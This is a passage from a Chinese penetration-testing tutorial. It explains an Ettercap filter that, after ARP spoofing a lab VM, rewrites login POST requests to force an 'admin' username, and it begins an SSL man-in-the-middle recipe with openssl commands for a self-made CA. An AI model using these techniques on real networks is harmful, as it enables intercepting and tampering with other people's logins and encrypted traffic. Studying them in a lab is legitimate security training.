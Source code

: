 ### 工作原理

ARP 欺骗攻击是更加复杂的攻击的开始。这个秘籍中，我们使用了 Ettercap 的封包过滤功能来识别带有特定内容的封包，并修改它来强制让用户以管理员登录应用。这也可以从服务端到客户端来完成，可以用来通过展示一些伪造信息来欺骗用户。

我们的第一步是创建过滤脚本，它首先检查被分析的封包是否含有我们打算改变的信息，像这样：

```
if (ip.dst == '192.168.56.102'&& tcp.dst == 80) { 
```

如果目标 IP 是  vulnerable_vm之一，且 TCP 端口是 80（默认 HTTP 端口号），它就是发往我们打算拦截的服务器的请求。

```
if (search(DATA.data, "POST")){    
    msg("POST request");    
    if (search(DATA.data, "login.php") ){
```

如果请求使用 POST 方法，且去往`login.php`页面，它就是登录尝试，因为这是我们的目标应用接收登录尝试的方式。

```
pcre_regex(DATA.data, "Content-Length\:\ [0-9]*","Content-Length: 41");
```

我们使用正则表达式来获取请求中的`Content-Length`参数，并将它的值改为 41，这是我们发送带有`admin/admin`凭证的登录封包的长度。

```
if (pcre_regex(DATA.data, "username=[a-zA-Z]*&","username=admin&")){    
    msg("DATA modified\n");  
} 
```

同样，使用正则表达式，我们在请求中查找用户名称值，并将它替换为`admin`。

消息（`msg`）仅仅用于跟踪和调试目的，可以被从脚本中忽略。

在编写完脚本之后，我们使用 Ettercap 的 etterfilter 编译他，以便执行它。之后，我们在 Ettercap 中加载它，然后等待客户端连接。

## 8.4 发起 SSL MITM 攻击

如果我们使用我们目前的方法嗅探 HTTPS 会话，我们不能从中得到很多信息，因为所有通信都是加密的。

为了拦截、读取和修改 SSL 和 TLS 的连接，我们需要做一系列准备步骤，来建立我们的 SSL 代理。SSLsplit 的仿作方式是使用两个证书，一个用于告诉服务器这是客户端，以便它可以接收和解密服务器的响应，另一个告诉客户端这是服务器。对于第二个证书，如果我们打算代替一个拥有自己的域名的网站，并且它的证书由认证中心（CA）签发，我们就需要让 CA 为我们签发根证书，但因为我们是攻击者，我们就需要自己来做。

这个秘籍中，我们会配置我们自己的 CA，以及一些 IP 转发规则来执行 SSL 中间人攻击。

### 操作步骤

1.  首先，我们打算在 Kali 上创建 CA 私钥，所以在 root 终端中键入下列命令：

    ```
    openssl genrsa -out certaauth.key 4096 
    ```
    
2.  现在让我们创建一个使用这个密钥签名的证书：

    ```
    openssl req -new -x509 -days 365 -key certauth.key -out ca.crt 
    ```
    